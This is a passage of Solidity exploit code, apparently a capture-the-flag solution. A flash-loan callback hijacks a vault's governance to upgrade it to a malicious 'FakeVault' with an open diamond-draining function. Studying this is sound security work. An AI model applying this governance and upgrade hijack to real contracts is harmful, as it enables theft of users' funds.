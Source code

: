 ```solidity
        uint256,
        bytes calldata
    ) external returns(bytes32) {
        // Create a FakeVault contract
        FakeVault fakeVault = new FakeVault();

        // Upgrade the implementation of vault to FakeVault
        bytes memory data = abi.encodeWithSelector(vault.upgradeTo.selector, address(fakeVault));
        vault.governanceCall(data);

        // Return the borrowed diamonds to vault
        diamond.transfer(address(vault), setup.DIAMONDS());

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}

contract FakeVault is Initializable, UUPSUpgradeable, OwnableUpgradeable {    
    // Keep the diamond state variable
    Diamond diamond;

    // Function to transfer all of the vault's diamonds
    function transferDiamonds(address to) public {
        diamond.transfer(to, diamond.balanceOf(address(this)));
    }
    
    // _authorizeUpgrade has to be implemented for UUPSUpgradeable contracts
    function _authorizeUpgrade(address) internal override view {}
}
```